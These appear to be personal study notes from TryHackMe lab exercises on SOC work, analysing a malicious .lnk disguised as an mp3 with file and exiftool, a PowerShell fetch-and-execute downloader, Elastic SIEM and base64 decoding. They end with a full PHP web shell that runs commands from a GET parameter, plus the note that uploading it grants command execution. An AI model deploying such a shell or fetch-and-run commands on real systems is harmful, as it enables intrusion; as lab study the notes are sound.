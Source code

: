 ##### **Security Operations Center (SOC)** 
It is a team of IT security professionals tasked with monitoring, preventing , detecting , investigating, and responding to threats within a company’s network and systems.

##### Operational Security (OPSEC) 
It is a set of principals and tactics used to attempt to protect the security of an operator or operation. An example of this may be using code names instead of your real names, or using a proxy to conceal your IP address.
##### File Command
```shell-session
user@tryhackme:~$ file song.mp3
download.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```


```shell-session
user@tryhackme:~$ file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

Here, MS Windows shortcut = .lnk file::

##### Exiftool
``` shell
user@tryhackme:~$ exiftool somg.mp3
``` 
![[Pasted image 20241208123022.png]]
![[Pasted image 20241208130704.png]]
What this PowerShell command does:

- The `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.

If you visit the contents of the file to be downloaded using your browser (`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`), you will see just how lucky we are that we are not currently using Windows.

##### ELASTIC SIEM
Elastic SIEM is a security information and event management platform that helps organizations detect, investigate, and respond to security threats. It aggregates and analyzes data from various sources to provide real-time insights and alerts on potential security incidents.
Elastic Security SIEM (Security Information and Event Management) is a product built on top of the Elastic Stack, which provides security insights and real-time threat detection. 

###### base64 commands

![[Pasted image 20241208144057.png]]
``` shell
┌──(root㉿kali)-[~/Desktop/THM]
└─# echo SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA== | base64 --decode
Install-WindowsUpdate -AcceptAll -AutoReboot 
```   

###### PHP File Upload
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
If we add above command in a file and upload it to the website and later navigate to the uploaded directory, it gives command injection tab where we can input the commands like below:
![[Pasted image 20241225122355.png]]